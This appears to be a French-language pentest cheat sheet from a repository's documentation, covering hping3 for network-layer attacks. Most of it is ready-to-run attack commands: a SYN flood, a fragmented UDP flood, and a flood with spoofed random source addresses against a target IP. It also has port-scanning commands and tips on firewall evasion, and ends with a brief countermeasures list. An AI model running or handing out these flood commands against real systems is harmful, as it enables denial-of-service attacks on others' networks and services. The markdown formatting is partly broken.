 ## 4. `docs/Couche3_Reseau/cheat-couche3.md`

```markdown
# Couche 3 (Réseau) – Hping3
**Version Testée : Hping3 3.0.x**  
**Attaque Ciblée : DDoS (flood TCP/UDP/ICMP) & Tests de Firewall**

*Document intégrant des annotations pour l’automatisation et la génération de rapports via le script.*

---

## Sommaire

1. [Introduction](#introduction)
2. [Installation & Pré-requis](#installation--pré-requis)
3. [Commandes Clés](#commandes-clés)
4. [Exemples d’Attaques](#exemples-dattaques)
5. [Limitations & Contre-mesures](#limitations--contre-mesures)
6. [Intégration avec le Script](#intégration-avec-le-script)
7. [Références & Ressources](#références--ressources)

---

## Introduction

Hping3 est un outil puissant pour manipuler des paquets TCP/IP. Il est utilisé pour :
- Tester la robustesse des firewalls (via fragmentation, flags spécifiques).
- Lancer des attaques DoS telles que SYN flood ou UDP flood.
- Réaliser des analyses de performance (ping avancé, traceroute).

---

## Installation & Pré-requis

- **Sur Debian/Ubuntu :**
```bash
sudo apt update
sudo apt install hping3
•	Privilèges :
Exécution en tant qu’utilisateur avec droits suffisants selon les tests réalisés.
________________________________________
Commandes Clés
1. SYN Flood
hping3 -S -p 80 --flood -d 1000 192.168.1.1
Détails :
•	-S active le flag SYN.
•	--flood pour un envoi continu.
•	-d 1000 définit la taille du paquet.
2. UDP Flood avec fragmentation
hping3 --udp -p 53 --frag -d 2000 --flood 192.168.1.1
Détails :
•	--udp active le mode UDP.
•	--frag active la fragmentation.
•	-d 2000 définit le payload.
3. IP Spoofing avec adresses sources aléatoires
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.1
Détails :
•	-c 10000 indique le nombre de paquets.
•	--rand-source génère des adresses IP sources aléatoires.
________________________________________
Exemples d’Attaques
•	Découverte de ports :
hping3 -S <IP_CIBLE> --scan 1-1000
•	Évasion de firewall :
En fragmentant les paquets ou en modifiant les flags pour contourner le filtrage.
________________________________________
Limitations & Contre-mesures
•	Limitations : 
o	Dépend de la bande passante de l’attaquant.
o	Détectable par des équipements de sécurité modernes.
•	Contre-mesures : 
o	Déployer des solutions anti-DDoS et de filtrage de paquets.
o	Utiliser des systèmes IDS/IPS pour surveiller les anomalies.
________________________________________
Intégration avec le Script
•	Annotations :
Le script analysera chaque commande exécutée, enregistrera les paramètres et générera un rapport d’activité complet.
•	Suivi des actions :
Les logs d’exécution seront intégrés pour un récapitulatif automatisé.
________________________________________
Références & Ressources
•	Site Officiel d’Hping3
•	GitHub Hping
•	RFC 791 (IP)
•	RFC 793 (TCP)

---
